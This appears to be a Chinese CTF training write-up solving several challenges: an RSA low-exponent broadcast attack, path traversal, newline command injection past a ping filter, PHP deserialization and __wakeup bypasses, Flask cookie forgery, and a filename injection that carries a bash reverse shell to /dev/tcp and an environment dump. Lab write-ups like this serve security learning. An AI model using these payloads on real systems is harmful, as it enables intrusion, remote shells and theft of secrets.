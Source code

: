 
# Train2024

## broadcast Problem ID: 52

https://www.ruanx.net/rsa-solutions/  

低加密指数广播攻击

原题：
```python
from Crypto.Util.number import *
import gmpy2
from secret import flag

m = bytes_to_long(flag)
assert m.bit_length() < 240

e = 11
n = [getPrime(256) * getPrime(256) for _ in range(12)]

def enc(i):
    return gmpy2.powmod(m, e, n[i])

with open('enc.txt', 'w') as f:
    for x in range(12):
        f.write(f'{enc(x)} {n[x]}\n')
```

dec:
```python
from Crypto.Util.number import *
import gmpy2
# 中国剩余定理
def crt(n, c):
    N = 1
    for i in n:
        N *= i
    result = 0
    for i in range(len(n)):
        M = N // n[i]
        result += c[i] * M * gmpy2.invert(M, n[i])
    return result % N
res=crt(n, c)
# res 开11次方
res, flag = gmpy2.iroot(res, 11)
print(flag)
print(res)
# res转ascii
print(long_to_bytes(res))
```


---

## 音乐会 Problem ID: 2

![alt text](assets/train2024/image.png)

`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`

![alt text](assets/train2024/image-1.png)


## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "<img class='img1' src=/img/agms.jpg>";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br><img src=/img/ask.jpg>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```



绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125



## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html


## flask
```shell
flask-unsign --unsign --cookie eyJyb2xlIjoiYW5vbnltb3VzIn0.ZnPqiw.nFlXAccc0v_3qOQU5YqV2yam_tA

flask-unsign --sign --cookie "{'role':'admin'}" --secret 'admin123'
```

## flask 反弹shell

student_id注入

```python 
    old_path = saveTmp(delete=False).name
    file.save(old_path)
    new_path = f"uploads/{name}-{student_id}.zip"
    os.system(f"mv {old_path} {new_path}")
```

```shell
#student_id 
123.zip ; bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/xxxx <&1' #
123.zip ; env > robots.txt #
```